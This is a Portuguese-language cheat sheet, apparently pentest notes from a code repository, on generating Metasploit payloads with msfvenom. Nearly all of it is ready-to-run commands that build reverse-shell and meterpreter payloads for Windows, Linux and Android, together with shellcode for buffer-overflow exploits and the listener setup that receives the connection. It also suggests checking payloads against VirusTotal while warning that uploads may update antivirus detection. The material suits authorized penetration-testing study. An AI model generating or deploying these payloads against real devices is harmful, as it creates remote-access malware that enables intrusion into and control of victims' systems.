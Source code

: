 # MSFVENOM

O **msfvenom** é utilizado para criação de exploit.  
Teste os seus payloads através do site https://www.virustotal.com.  
*Cuidado pois ao enviar para o vírus total, a heurística pode ser atualizada nos antivírus.*

Verificar todos os payloads:

```bash
msfvenom --list payloads
```

Gerando payload para Windows:

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.100 LPORT=443 -f exe > virus.exe
```

Para receber a conexão do alvo será necessário que o msf esteja em execução:

```bash
msfconsole
```

```msf
msf > use exploit/multi/handler
msf exploit(handler) > set payload windows/meterpreter/reverse_tcp
msf exploit(handler) > set LPORT 443
msf exploit(handler) > set LHOST 192.168.0.100
msf exploit(handler) > exploit*
```

Criando um exploit para Windows para BoF:

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.0.100 LPORT=443 -b "\x00\x0a\x0d\x20" EXITFUNC=thread -f python
```

**windows/shell_reverser_tcp** ==> Tipo do exploit.  
**LHOST** ==> IP de conexão reversa.  
**LPORT** ==> Porta de conexão reversa.  
**-b "\x00\x0a\x0d\x20"** ==> Bad caracteres ou caracteres inválidos.  
**-f python** ==> Linguagem que vai ser gerado o exploit.  
**EXITFUNC=thread** ==> Evita que a aplicação morra depois do exploit ser fechado.

Gerando payload binário para sistema Linux:

```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp lport=433 lhost=192.168.0.111 -f elf > malicioso
```

*Utilizado quando você já tem uma shell no device e necessita usar o meterpreter para auxiliar na pós exploração.*

Gerando payload APK para Android:

```bash
msfvenom -p android/meterpreter/reverse_tcp lport=433 lhost=192.168.0.111 R > malicioso.apk
```

**R** ==> Salva em modo RAW.

*Utilizado quando você já tem uma shell no device e necessita usar o meterpreter para auxiliar na pós exploração.*
